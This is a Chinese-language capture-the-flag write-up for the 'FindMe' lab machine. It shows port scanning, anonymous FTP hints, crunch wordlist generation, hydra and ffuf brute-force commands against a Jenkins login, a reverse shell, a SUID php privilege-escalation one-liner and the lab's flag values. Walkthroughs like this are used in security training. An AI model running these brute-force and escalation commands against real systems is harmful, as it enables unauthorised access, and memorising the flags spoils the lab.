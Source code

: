 # FindMe

2025.03.05 https://thehackerslabs.com/find-me/

[video](https://www.bilibili.com/video/BV1GJRFYaE4r/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，爆破（注意要加 C=/login，否则没有 cookie 爆破一直不成功）：

```
crunch 5 5 -t p@@@a -o pass.txt
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt  # 这个密码字典更大更全，先用上面的小写字母生成，爆不出来再用这个
```

```
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:C=/login:F=Invalid username or password" -f
[8080][http-post-form] host: 192.168.5.40   login: geralt   password: panda
```

或者使用 ffuf 进行爆破：

```
ffuf -t 100 -c -X POST -w pass -u http://192.168.5.40:8080/j_spring_security_check -H 'Content-Type: application/x-www-form-urlencoded' -d 'j_username=geralt&j_password=FUZZ&from=%2F&Submit=' -fr 'loginError'
```

先将请求用 BP 拦截，保存到文件中 req.txt：

```
POST /j_spring_security_check HTTP/1.1
Host: 192.168.5.40:8080
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.5.40:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.5.40:8080/login?from=%2F
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID.2665f1e3=node01pmqddxyq7z2w1ubxf6ku9eroy169554.node0
Connection: close

j_username=geralt&j_password=FUZZ&from=%2F&Submit=
```

然后进行爆破，同样可以得到账户的密码：

```
ffuf -ac -request req.txt -request-proto http -w pass -t 100
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr 'loginError'
或
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr '.*loginError.*'
```

爆出密码 panda，登陆 jenkins。创建 item，执行反弹 shell 到 kali 上：

```
jenkins@find-me:~/workspace/shell$ id
id
uid=104(jenkins) gid=110(jenkins) grupos=110(jenkins)
```

发现 suid /usr/bin/php8.2

```
/usr/bin/php8.2 -r "posix_setuid(0); system('/bin/bash');"
```

直接拿到 root 权限，获得 flag：

```
root@find-me:/home/geralt# cat user.txt
be336806b564e9fd7812aef123f80b7b
root@find-me:/home/geralt# cat /root/root.txt
71b5a461e7df11a40f29c707a8b1b05f
```
